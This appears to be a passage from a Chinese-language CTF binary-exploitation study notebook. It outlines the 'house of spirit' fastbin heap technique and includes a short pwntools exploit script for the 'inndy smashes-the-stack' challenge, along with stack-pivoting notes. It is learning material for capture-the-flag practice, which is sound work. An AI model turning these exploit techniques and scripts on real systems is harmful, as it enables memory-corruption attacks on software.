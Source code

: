 ```python
if __name__ == "__main__":
    exp()
```

#### house of spirit
（1）伪造堆块
在可控 1 及可控 2 构造好数据，将它伪造成一个 fastbin。

（2）覆盖堆指针指向上一步伪造的堆块。（覆盖哪里的堆指针）

（3）释放堆块，将伪造的堆块释放入 fastbin 的单链表里面。

（4）申请堆块，将刚刚释放的堆块申请出来，最终使得可以往目标区域中写入数据，实现目的。  
参考链接：  
https://www.slideshare.net/YOKARO-MON/oreo-hacklu-ctf-2014-65771717
https://blog.betamao.me/2018/02/25/hack-lu-ctf-2014-oreo/

### inndy smashes-the-stack

签到题
```python
from pwn import *
sh = process("./smash-the-stack")

buf_addr = p32(0x804A060)
sh.sendline(buf_addr*0x50)
sh.interactive()
```

### stack pivoting  b0verfl0w 
来复习一下 `stach pivoting`反正所有东西对我来说学跟没说过一个样，都忘了。..
劫持指针指向攻击者能控制的内存区，之后通过 ROP 利用
常见的情况
1. 可以控制栈溢出字节少，构造 ROP 不方便
2. 开启 PIE(ASLR) 保护，无法确定栈地址

### IO FILE
